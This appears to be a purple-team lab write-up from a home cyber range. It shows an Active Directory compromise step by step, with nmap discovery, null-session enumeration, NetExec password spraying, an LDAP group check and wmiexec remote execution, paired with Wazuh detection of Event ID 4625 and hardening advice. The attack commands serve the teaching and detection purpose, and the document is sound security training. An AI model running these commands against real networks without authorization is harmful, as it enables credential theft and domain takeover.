








# 🌐 Scenario 01 — Network Reconnaissance, Password Spraying & Domain Compromise


## 🎯 Lab Environment

| Component | Details |
|---|---|
| **Domain Controller** | `SRV-DC-01` — `10.10.20.10` |
| **AD Domain** | `cyberlab.4real` |
| **Attacker Machine** | Kali Linux — `10.10.20.50` |
| **SIEM / XDR** | Wazuh Manager (Ubuntu Server) |

---

## 🔍 Phase 1 — Network Reconnaissance & RPC Probing

The goal of this phase is to map the production subnet (`10.10.20.0/24`) and evaluate the Active Directory's anonymous enumeration policies.

### 1.1 Host Discovery — Ping Sweep

```bash
nmap -sn 10.10.20.0/24
```



**Result:** 3 active hosts discovered, including the primary Domain Controller (`10.10.20.10`) and the pfSense gateway (`10.10.20.254`).

> 🔵 **SIEM Observation (Wazuh):** Standard ICMP/ARP discovery requests triggered **0 security alerts**. The traffic successfully blended into normal background network noise.




---

### 1.2 Null Session — Anonymous Enumeration

```bash
enum4linux 10.10.20.10
```



**Data retrieved via Null Session:**

| Attribute | Value |
|---|---|
| Domain Name | `CYBERLAB` |
| Domain SID | `S-1-5-21-1265228995-3593641837-3109714493` |

Attempting to extract the user list via RPC:

```bash
rpcclient -U "" -N 10.10.20.10
rpcclient $> querydispinfo
# Result: NT_STATUS_ACCESS_DENIED
```

> ⚠️ Windows Server 2022 blocks unauthenticated user enumeration by default. The strategy must pivot.

---

## ⚡ Phase 2 — Password Spraying Attack (SMB)

Since anonymous user listing was blocked, the attack pivoted to **Password Spraying** via NetExec: a single common password tested against a list of likely domain usernames.

```bash
nxc smb 10.10.20.10 -u users.txt -p "Password123"
```



### 🏆 Result — Initial Access

```
SMB  10.10.20.10  445  SRV-DC-01  [+] cyberlab.4real\john.doe:Password123 (Pwn3d!)
```

Once the authenticated SMB session was established, NetExec automatically dumped the complete list of **8 domain accounts**:

```
Administrateur
Invité
krbtgt
Kg4real!
ibrahim
john.doe
admin.service
jane.smith
```

---

## 🛡️ Phase 3 — Blue Team Analysis & Wazuh Detection

### SIEM Filter Applied

```
data.win.system.eventId : 4625
```



> `Event ID 4625` = Windows Logon Failure

### Observations

| Metric | Value |
|---|---|
| Total events (baseline) | 110+ |
| Filtered `4625` events | **14 critical events** |
| Detected source IP | `10.10.20.50` (Kali Linux) |
| Targeted accounts | `ntest`, `user1`, `nchef`... |

**Attack signature:**
- Sharp spike of authentication failures (`4625`) in rapid succession
- Single origin: Kali Linux IP
- Classic Password Spraying pattern — one password, multiple accounts

> 💡 **SOC Insight:** The total event volume is heavily flooded by `Event ID 4634` (Account Logoff). Filtering precisely on `4625` is an essential analyst reflex to isolate malicious brute-force attempts from standard OS telemetry.

---

## 👑 Phase 4 — LDAP Pivoting & Privilege Escalation

Armed with valid credentials, the attack pivoted to **LDAP (port 389)** to map the security group memberships of the compromised account.

```bash
nxc ldap 10.10.20.10 -u 'john.doe' -p 'Password123' --groups
```



### 🔴 Critical Security Misconfiguration Uncovered

```
LDAP  10.10.20.10  389  SRV-DC-01  Administrateurs  Members: 4
```

**Finding:** `john.doe` is a direct member of the **Administrateurs (Domain Admins)** group.

This immediately opens the door to remote command execution:

```bash
nxc wmiexec 10.10.20.10 -u 'john.doe' -p 'Password123'
```



> 🔵 **SIEM Observation:** The remote authentication used to establish this session (NTLM, logon type 3) was flagged by Wazuh as a **possible Pass-the-Hash pattern**, giving the SOC an early warning even before full domain compromise was confirmed. See [Scenario 02 — Kerberoasting](../02-ad-attacks/README.md) for the same alert type.

---

## 💀 Conclusion — Compromise Timeline

```
[Phase 1] Reconnaissance   →  3 hosts discovered, partial Null Session
     ↓
[Phase 2] Password Spraying  →  john.doe:Password123 compromised (Pwn3d!)
     ↓
[Phase 3] Blue Team          →  14x Event 4625 detected in Wazuh
     ↓
[Phase 4] LDAP Pivot         →  john.doe = Domain Admin → Full Domain Compromise
```

> A single weak default password on a standard-looking account, combined with an administrative group nesting error, was enough to fully compromise the **entire Active Directory forest** — without exploiting a single CVE.

---

## 🧰 Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Host discovery, port scanning |
| `enum4linux` | Null session & SMB enumeration |
| `rpcclient` | RPC probing |
| `NetExec (nxc)` | Password spraying, LDAP queries, SMB auth |
| `Wazuh` | SIEM — detection & log analysis |

## 🛡️ Mitigation & Hardening

1. **Ban weak/default passwords** — enforce a strong password policy and screen against breached-password lists (Azure AD Password Protection, `pwquality`, etc.).
2. **Audit group nesting** — regularly review `Domain Admins` / `Administrateurs` membership; standard users should never be direct members.
3. **Alert on Event ID 4625 spikes** — a Wazuh correlation rule on multiple failed logons from a single source, across multiple accounts, in a short window is the fastest way to catch spraying in progress.
4. **Restrict null sessions** — `RestrictAnonymous` should already be enforced (as observed here), but combine it with SMB signing and disabling legacy NTLMv1.

---

## 📚 References

- [MITRE ATT&CK — T1110.003 Password Spraying](https://attack.mitre.org/techniques/T1110/003/)
- [MITRE ATT&CK — T1087 Account Discovery](https://attack.mitre.org/techniques/T1087/)
- [Windows Event ID 4625 — Microsoft Docs](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625)
- [NetExec Documentation](https://github.com/Pennyw0rth/NetExec)

---

*Part of the [CyberRange-ESXi](https://github.com/Kg4REAL/CyberRange-ESXi) series — a Purple Team home lab built on VMware ESXi.*
